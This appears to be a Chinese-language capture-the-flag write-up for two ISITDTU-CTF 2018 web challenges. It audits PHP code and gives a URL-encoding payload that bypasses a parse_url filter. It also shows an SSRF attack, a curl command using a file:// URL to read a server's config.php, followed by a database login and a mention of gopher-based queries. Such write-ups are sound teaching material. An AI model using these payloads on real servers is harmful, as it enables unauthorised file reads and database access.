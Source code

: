 ```yaml
---
title: ISITDTU-CTF
date: 2018-07-30 11:37:21
tags: ctf
---
```


## Web

### lz

代码审计

```php
<?php 

include "config.php"; 
$number1 = rand(1,100000000000000); 
$number2 = rand(1,100000000000); 
$number3 = rand(1,100000000); 
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY); 
if (preg_match("/_/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/0/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/\w+/i", $url))  
{ 
    die("..."); 
}     
if(isset($_GET['_']) && !empty($_GET['_'])) 
{ 
    $control = $_GET['_'];         
    if(!in_array($control, array(0,$number1))) 
    { 
        die("fail1"); 
    } 
    if(!in_array($control, array(0,$number2))) 
    { 
        die("fail2"); 
    } 
    if(!in_array($control, array(0,$number3))) 
    { 
        die("fail3"); 
    } 
    echo $flag; 
} 
show_source(__FILE__); 
```

```
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY);
```

由于这里在进行parse_url操作之前，先进行了一次`urldecode`操作，所以可以编码*#* 从而绕过parse_url检测。

payload:

```
http://35.185.178.212/?%23&_=a

php > var_dump(parse_url(urldecode("%23&_=a")),PHP_URL_QUERY);
array(1) {                                                    
  ["fragment"]=>                                              
  string(4) "&_=a"                                            
}                                                             
int(6)
```

在特定情况下也可以使用如下payload:

```
http://35.185.178.212//?_=a
```

测试如下:

```
php > var_dump(parse_url(urldecode("//?_=a")),PHP_URL_QUERY);
bool(false)
int(6)
php > var_dump(parse_url(urldecode("//a?_=a")),PHP_URL_QUERY);
array(2) {
  ["host"]=>
  string(1) "a"
  ["query"]=>
  string(3) "_=a"
}
int(6)
php > var_dump(parse_url(urldecode("//a/?_=a")),PHP_URL_QUERY);
array(3) {
  ["host"]=>
  string(1) "a"
  ["path"]=>
  string(1) "/"
  ["query"]=>
  string(3) "_=a"
}
int(6)
```

### Friss

获取index.php

> curl http://35.190.142.60/index.php?debug=1

index.php

```php
<?php 
include_once "config.php"; 
if (isset($_POST['url'])&&!empty($_POST['url'])) 
{ 
    $url = $_POST['url']; 
    $content_url = getUrlContent($url); 
} 
else 
{ 
    $content_url = ""; 
} 
if(isset($_GET['debug'])) 
{ 
    show_source(__FILE__); 
} 


?> 

<form action="index.php" method="POST"> 
<input name="url" type="text"> 
<input type="submit" value="CURL"> 
</form> 


<?php  

echo $content_url; 
?> 
```

获取config.php

> curl --data "url=file://localhost/var/www/html/config.php" http://35.190.142.60/index.php

config.php

```php
<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
        $dbinit = "create table if not exists flag(secret varchar(100));";
        if(mysqli_query($conn,$dbinit)) return 1;
        else return 0;
}

function safe($url)
{
        $tmpurl = parse_url($url, PHP_URL_HOST);
        if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
        {
                var_dump($tmpurl);
                die("<h1>Only access to localhost</h1>");
        }
        return $url;
}

function getUrlContent($url){
        $url = safe($url);
        $url = escapeshellarg($url);
        $pl = "curl ".$url;
        echo $pl;
        $content = shell_exec($pl);
        return $content;
}
initdb($conn);
?>
```

登录数据库

> mysql -h 127.0.0.1 -u ssrf_user 

ssrf操作: 利用gopher协议查询数据库。

## pwn

https://github.com/chung96vn/challenges